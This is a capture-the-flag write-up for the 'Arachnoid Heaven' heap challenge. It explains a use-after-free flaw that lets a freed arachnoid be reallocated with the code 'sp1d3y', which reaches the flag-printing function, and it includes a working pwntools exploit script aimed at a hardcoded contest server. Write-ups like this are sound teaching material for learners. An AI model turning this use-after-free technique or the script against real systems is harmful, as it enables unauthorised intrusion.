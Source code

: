 # Arachnoid Heaven (Pwn) Writeup
Running the binary, we can quickly conclude that this is a heap challenge.

![alt text](https://github.com/BillBrousalis/htb_uni_ctf_writeups/blob/main/arachnoid_heaven/screenshots/arachnoid_menu.png)

We get the classic menu with options to create, delete, view, and then ... obtain ?
Reading the pseudocode in ida, everything looks as expected,
with craft_arachnoid using malloc to allocate space, delete freeing chunks 
and view letting us view the arachnoids, and since deleted arachnoids aren't
taken into account in the view function, we can even view those.

Reading through the **obtain** function, we see this:
![alt text](https://github.com/BillBrousalis/htb_uni_ctf_writeups/blob/main/arachnoid_heaven/screenshots/arachnoid_win_func.png)

It checks if the *Code* corresponding to a particular arachnoid is set to 'sp1d3y',
and if so, it prints out the flag. Basically a win function.

The user chooses the arachnoid index to obtain, and nothing is stopping us from
selecting a chunk that has been freed.
So there we have it: a **Use-After-Free vulnerability**.
We can use this to exploit the program.

```
#!/usr/bin/env python3
from pwn import *

def exploit():
  _bin = './arachnoid_heaven'
  elf = ELF(_bin)
  local = False

  if local:
    log.info('** Running exploit LOCALLY **')
    r = elf.process()
  else:
    log.info('** Running exploit against REMOTE server **')
    ip, port = '167.172.58.213', 31168   # CHANGE THIS
    r = remote(ip, port)
  
  r.sendlineafter(b'>', b'1') # craft arachnoid
  r.sendlineafter(b'Name:', b'koulis') # initial spider name

  r.sendlineafter(b'>', b'2') # delete arachnoid
  r.sendlineafter(b'Index:', b'0') # select 1st arachnoid

  r.sendlineafter(b'>', b'1') # craft arachnoid again
  # name it sp1d3y, so arachnoid's Code at index 0 is set to sp1d3y
  r.sendlineafter(b'Name:', b'sp1d3y')

  r.sendlineafter(b'>', b'4') # obtain arachnoid with index 0
  r.sendlineafter(b'Arachnoid:', b'0')

  r.recvline() # junk
  log.success('** PWNED **')
  flag = r.recvline().decode()
  log.success(f'flag : {flag}')


if __name__ == '__main__':
  exploit()
```

## And there we have it:

![alt text](https://github.com/BillBrousalis/htb_uni_ctf_writeups/blob/main/arachnoid_heaven/screenshots/arachnoid_flag.png)
